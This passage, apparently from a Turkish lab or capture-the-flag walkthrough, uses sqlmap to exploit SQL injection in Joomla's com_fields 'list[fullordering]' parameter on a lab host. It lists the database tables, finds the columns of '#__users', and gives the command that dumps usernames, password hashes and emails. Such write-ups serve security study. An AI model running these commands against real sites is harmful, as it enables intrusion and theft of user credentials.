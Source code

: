 ```txt
| #__postinstall_mess |
| #__redirect_links   |
| #__schemas          |
| #__session          |
| #__tags             |
| #__template_styles  |
| #__ucm_base         |
| #__ucm_content      |
| #__ucm_history      |
| #__update_sites_ext |
| #__update_sites     |
| #__updates          |
| #__user_keys        |
| #__user_notes       |
| #__user_profiles    |
| #__user_usergroup_m |
| #__usergroups       |
| #__users            |
| #__utf8_conversion  |
| #__viewlevels       |
+---------------------+
```
Joomla veritabanında yer alan ***#__users*** tablosunda yer alan kolonlar tespit edilir.

```bash
sqlmap -u "http://192.168.56.111/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' --columns -p list[fullordering]
```

```txt
Database: joomladb
Table: #__users
[6 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| id       | numeric     |
| name     | non-numeric |
| password | non-numeric |
| email    | non-numeric |
| params   | non-numeric |
| username | non-numeric |
+----------+-------------+
```

Tablodaki username,password ve email sutunlarında yer alan bilgiler dump edilir.

```bash
sqlmap -u "http://192.168.56.111/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml" --risk=3 --level=5 --random-agent -D joomladb -T '#__users' -C username,password,email --dump -p list[fullordering]
```
